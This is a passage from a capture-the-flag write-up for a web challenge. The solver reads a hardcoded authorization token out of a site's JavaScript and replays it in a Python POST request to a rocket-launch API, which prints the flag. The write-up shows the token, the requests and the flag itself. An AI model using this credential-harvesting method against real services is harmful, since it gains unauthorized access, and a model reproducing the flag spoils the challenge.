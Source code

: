 We got some fuels to try out!! I tried all the five fuels. Fourth one is working.

```python
import requests
data = {"rocket": "triton", "launchTime": "12:00", "pumpID": 4}
url = "https://space.sdc.tf/api/rocketLaunch"
res = requests.post(url, json=data)
print(res.text)
```
```
frontend authorization token not specified
```

Oh shit! Authorization? Where do I get the token? But it's saying **frontend authorization**. May be, trying out to seach some JS files is a great idea.

As i thought, I found a token in JS a file.

```javascript
 window.localStorage.getItem("debug") && (e.headers = {
                        Token: "yiLYDykacWp9sgPMluQeKkANeRFXyU3ZuxBrj2BQ"
                    }), fetch("./api/status?verbose=", e).then((function(e) {
                        return e.json()
                    })).then((function(e) {
                        return n(e.longStatus)
                    }))
```

For some reason, the `token` was case-sensitive. But is was spelled `Token` in JS

So finally, providing the token in the json - 
```python
import requests
data = {"rocket": "triton", "launchTime": "12:00", "pumpID": 4, "token": "yiLYDykacWp9sgPMluQeKkANeRFXyU3ZuxBrj2BQ"}
url = "https://space.sdc.tf/api/rocketLaunch"
res = requests.post(url, json=data)
print(res.text)
```
```
rocket launched. sdctf{0ne_sM@lL_sT3p_f0R_h@ck3r$}
```

Yayy!! The rocket got launched. We have the flag.
<br>

### Flag
> sdctf{0ne_sM@lL_sT3p_f0R_h@ck3r$}

<br>
<br>

## GETS Request